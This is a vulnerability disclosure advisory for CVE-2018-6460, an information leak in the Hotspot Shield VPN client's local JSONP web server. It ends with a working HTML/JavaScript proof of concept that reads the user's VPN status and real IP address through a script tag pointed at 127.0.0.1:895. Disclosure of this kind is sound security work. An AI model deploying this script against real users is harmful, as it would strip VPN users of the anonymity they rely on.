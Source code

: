 ## Vulnerability Summary
The following advisory describes a information disclosure found in Hotspot Shield.

Hotspot Shield “provides secure and private access to a free and open internet. Enabling access to social networks, sports, audio and video streaming, news, dating, gaming wherever you are.”

## Credit
An independent security researcher, Paulos Yibelo, has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

## Vendor response
“Thank you very much again for contacting us. The info is being reviewed and if there are any questions/comments, we’ll contact you by re-opening this ticket”

CVE: CVE-2018-6460

## Vulnerability details
The HotspotShiled product runs webserver with a static IP 127.0.0.1 and port 895.

The web server using JSONP and hosts sensitive information, including, configuration.

User controlled input is not sufficiently filterd, an unauthenticated attacker can send a POST request to /status.js with parameter func=$_APPLOG.Rfunc and extract sensitive information about the machine, including wheater the user is connected to VPN, to which VPN he/she is connected to what their real IP address.

## Proof of Concept

```
<head>
<script>
var $_APPLOG = function() { return 1; }
$_APPLOG.Rfunc = function(leak){
    alert(JSON.stringify(leak));
}
</script>
</head>
<script>
    var head = document.getElementsByTagName('head')[0];
    var script = document.createElement('script');
    script.id = 'jsonp';
    script.src = 'http://127.0.0.1:895/status.js?func=$_APPLOG.Rfunc&tm='+(new Date().getTime());
    head.appendChild(script);
</script>
```